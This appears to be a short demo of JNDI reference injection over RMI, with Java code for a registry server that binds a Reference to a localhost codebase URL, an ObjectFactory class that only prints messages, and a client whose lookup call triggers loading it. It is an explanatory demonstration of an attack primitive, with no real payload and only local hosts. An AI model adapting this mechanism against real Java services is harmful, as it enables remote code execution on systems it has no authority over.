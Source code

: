 ## DEMO

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Test", "Test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("try",referenceWrapper);
    }
}
```

Client存在Factory

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Test implements ObjectFactory {
    static {
        System.out.println("Static Code");
    }
    public Test() {
        System.out.println("Non-Arg Constructor");
    }

    {
        System.out.println("Constructor Code");
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("getObjectInstance");
        return null;
    }
}
```

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/try";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```
